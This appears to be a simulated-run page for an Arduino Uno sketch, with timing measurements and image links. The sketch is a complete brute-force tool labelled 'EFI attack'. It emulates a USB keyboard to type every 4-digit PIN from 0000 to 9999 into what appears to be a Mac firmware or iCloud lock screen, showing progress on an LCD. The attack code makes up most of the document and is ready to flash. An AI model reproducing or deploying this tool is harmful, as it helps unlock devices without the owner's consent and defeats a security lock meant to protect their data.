
Simulated run of this sketch. Board: Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. On the bench: 16×2 character LCD, output pins drawn as LEDs (lit = HIGH). What the sketch prints to the serial monitor is not drawn.

Above: at 0.3 s.
At 14.0 s:

At 63.8 s:

At 124.7 s:

Timing chart, 0 to 126.2 s (numbered marks = the images above):


The sketch:

EFI_Brute_Force_4DIGIT_UNO_LCD.ino
```cpp
#include <LiquidCrystal.h>

LiquidCrystal lcd(1, 2, 4, 5, 6, 7);

//EFI Pin bruteforce
const int ledPin = 13;
int set_min = 0000;
int set_max = 9999;
int counter = set_min;
//waits for iCould
int loops = 0;
int value0 = 0;
int value1 = 0;
int value2 = 0;
int value4 = 0;

int fakecounter = counter;
char pin[]="xxxx";
uint8_t buf[8] = { 0 }; /* Keyboard report buffer */

void setup() {
pinMode(ledPin, OUTPUT);
Serial.begin(9600);
randomSeed(analogRead(0));
lcd.begin(16,2);
lcd.print("EFI attack");
delay(200);
}

void loop(){

lcd.print(pin);
delay(200);

if (counter <= set_max){
delay(8000);
digitalWrite(ledPin, LOW);
delay(5500);
digitalWrite(ledPin, HIGH);
sprintf(pin, "%04d", fakecounter);

//First Digit
int value0 = pin[0] - '0';
if (value0 == 0) {
  buf[3] = value0 + 39;
  } else {
    buf[3] = value0 + 29;
  }
Serial.write(buf, 8);
delay(300);
releaseKey();
delay(300);

//Second Digit
int value1 = pin[1] - '0';
if (value1 == 0) {
  buf[3] = value1 + 39;
  } else {
    buf[3] = value1 + 29;
  }
Serial.write(buf, 8);
delay(300);
releaseKey();
delay(300);


//Third Digit
int value2 = pin[2] - '0';
if (value2 == 0) {
  buf[3] = value2 + 39;
  } else {
    buf[3] = value2 + 29;
  }
Serial.write(buf, 8);
delay(300);
releaseKey();
delay(300);

//Forth Digit
int value3 = pin[3] - '0';
if (value3 == 0) {
  buf[3] = value3 + 39;
  } else {
    buf[3] = value3 + 29;
  }
Serial.write(buf, 8);
delay(300);
releaseKey();
delay(300);

//Enter Key
buf[3] = 40;
Serial.write(buf, 8);
delay(300);
releaseKey();

lcd.clear();
delay(200);
}

//reached 4 digit PIN max value
if (counter > set_max){
for (int blinkies = 0; blinkies < 8; blinkies++) {
digitalWrite(ledPin, HIGH);
delay(20);
digitalWrite(ledPin, LOW);
delay(200);
}
delay(6000);
}

++counter;
fakecounter = counter;
}

void releaseKey()
{
buf[0] = 0;
buf[2] = 0;
buf[3] = 0;
Serial.write(buf, 8); // Release key
}
```

Measured:
- by itself, pin 13 (ledPin): alternates HIGH for 11.1 s and LOW for 5.5 s
- what the display in image 0 shows lasts 16.4 s, from 0.3 s to 16.7 s
